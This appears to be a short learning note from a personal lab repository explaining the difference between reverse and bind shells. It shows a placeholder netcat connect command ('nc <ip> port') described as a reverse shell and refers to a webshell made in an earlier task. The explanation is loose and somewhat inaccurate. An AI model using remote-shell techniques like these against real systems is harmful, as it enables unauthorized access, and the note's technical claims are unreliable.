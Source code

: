 # Netcat and Socat 

Before moving ahead lets understand the basic difference between Reverse shell and Bind shell

The main difference that in rev shell and bind shell is that in rev shell you establish
the listner in your machine whereas in the bind shell the compromisded machine will establish the listener.

In to get a clear idea lets perform the task.. and see whats the real difference is


The one that we created in the prev task was a webshell :0

**Netcat For REV-SHELL**

Open the cmd using the administrators permissions now simply type the command :

    nc <ip> port

There we go..

![Screenshot 2023-11-18 135745](https://github.com/Theincognitomode/What-the-shell/assets/73027020/a4a49fa7-a35b-43eb-8be7-d51254c48775)

This is a NETCAT reverse shell..


